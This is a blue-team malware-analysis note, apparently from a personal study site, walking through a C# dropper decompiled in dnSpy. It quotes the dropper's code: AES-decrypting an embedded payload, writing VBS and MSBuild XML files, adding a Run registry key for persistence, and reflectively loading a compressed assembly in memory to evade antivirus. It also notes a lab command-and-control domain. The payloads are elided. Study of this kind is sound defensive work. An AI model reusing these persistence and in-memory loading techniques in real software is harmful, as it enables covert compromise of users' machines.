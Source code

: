 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/malware-analysis/c-sharp-malware-analysis/","tags":["malware"]}
---
```


[[map-of-contents/malware\|malware]] 
### Introduction 
---
In a C# when performing static analysis by getting the strings - the output is usually cleaner no junk unlike C or C++ binaries.

![Pasted image 20240620200434.png|350](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240620200434.png)

The **mscorlib** is a series of .NET libraries that can be imported to C# - in a compiled language such as C, C++, C# and more - the compiler translates the code into a machine code - however C# takes one more step - the **common language runtime** it is a single set of machine code for many types of languages, so every binary created using the .NET framework will go under the CLT - the **C# compiler** will create what is called **Intermediate Language**, it will acts as a broker between the compiler and the **CLR**.

![Pasted image 20240620211429.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240620211429.png)
## dnSpy
---
It will translate the immediate language as closely to the source code as possible:

![Pasted image 20240621184359.png|450](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621184359.png)

The **EmbedDLL** is the filename when it was compiled but the name now is different.

```C#
// Line 1
byte[] array = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes("p0w3r0verwh3lm1ng!"));     
// Line 2
string text = new StreamReader(new MemoryStream(Cryptor.AES_Decrypt(Convert.FromBase64String("Very Long B64 here"), array))).ReadToEnd();

// Line 3
File.WriteAllText(Environment.GetEnvironmentVariable("public") + "\\embed.xml", text);

// Line 4
string text2 = new StreamReader(new MemoryStream(Convert.FromBase64String("B64"))).ReadToEnd();

// Line 5
File.WriteAllText("C:\\Users\\Public\\Documents\\embed.vbs", text2);
```

- `Line 1` - Hashes the string that is encoded in `UTF-8` using `SHA256` .
- `Line 2` - Decodes the Base64 uses `Line 1` value a symmetric key to decrypt the decoded base64
- `Line 3` - Creates a file in the public directory name `embed.xml` with the value from `Line 2` variable name `text`.
- `Line 4` - Decodes Base64 
- `Line 5` - Creates a VBscript name `embed.vbs` with the contents of `text2` from `Line 4` in the public document directory.

```C#
try
			{
				RegistryKey.OpenBaseKey(RegistryHive.CurrentUser, RegistryView.Registry64).OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true).SetValue("embed", "C:\\Users\\Public\\Documents\\embed.vbs");
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex.Message);
			}
```

The whole code establishes persistence by running the `embed.vbs` everytime the user logs on.
###  Running a DLL
---
Running a `.dll` is not possible as they don't have a main function like an executable file instead it contains functions called by other programs however we can use the built-in tool by Windows name `rundll32 file.dll, func_name`:

![Pasted image 20240621192723.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621192723.png)


```C
rundll32 Malware.cryptlib64.dll,embed
```

Looking at the directories:

![Pasted image 20240621193145.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621193145.png)

It opens the msbuild.exe to build the `embed.xml` and the `.xml` file contains:

![Pasted image 20240621193302.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621193302.png)
It decodes a base64 and invokes what is the result from it and looking at Wireshark it seems to contact this domain:

```
http://srv.masterchiefsgruntemporium.local/en-us/index.html
```

![Pasted image 20240621200458.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621200458.png)

At the registry editor:

![Pasted image 20240621195928.png](/img/user/cards/blue-team/malware-analysis/images/Pasted%20image%2020240621195928.png)

A deep dive to the code:

```C#
// Line 0
var oms = new System.IO.MemoryStream();

var ds = new System.IO.Compression.DeflateStream(new System.IO.MemoryStream(System.Convert.FromBase64String(('Very long'));

var by = new byte[1024];

var r = ds.Read(by, 0, 1024);

while (r > 0) { 
oms.Write(by, 0, r);

r = ds.Read(by, 0, 1024);
}
```

- `Line 1` - Decodes the Base64 encoded string
- `Line 2` - Initialize a byte variable with a size of 1024
- `Line 3` - It reads the value of `ds`  and then uses the `by` to store the decompressed data, the `0` is the offset meaning data is stored in index 0 then specifies the maximum value to read from the stream.
- `Line 4` - Writes a specified number of bytes into a _something_ - the explanation is the same for `Read` as for the parameters passed.

```C#
System.Reflection.Assembly.Load(oms.ToArray()).EntryPoint.Invoke(0, new object[] { new string[]{ } });
```

The ‘something’ is actually from `Line 0` which is a memory stream — the `oms` creates a memory stream and the `Write` function writes it into the memory stream and then is invoked.

- The `System.Reflection.Assembly.Load`  - Load everything into memory bypassing EDR and Antivirus.
- The `oms.ToArray()` value will represent the entry point of the assembly indicated by the `EntryPoint` 
- The `.Invoke` is similar to PowerShell `iex`.
### Questions and Problems
---
So what is the purpose of the malware? (Note: I did not perform basic/advanced analysis — went straight to dnSpy)

The indicators for me are these:

- It contacts the domain ‘http://srv.masterchiefsgruntemporium.local/en-us/index.html’
- It makes a POST request — see **Wireshark Image** which is more likely that the dropper is telling the server ‘Hey I successfully compromised the system’
## Conclusion
---

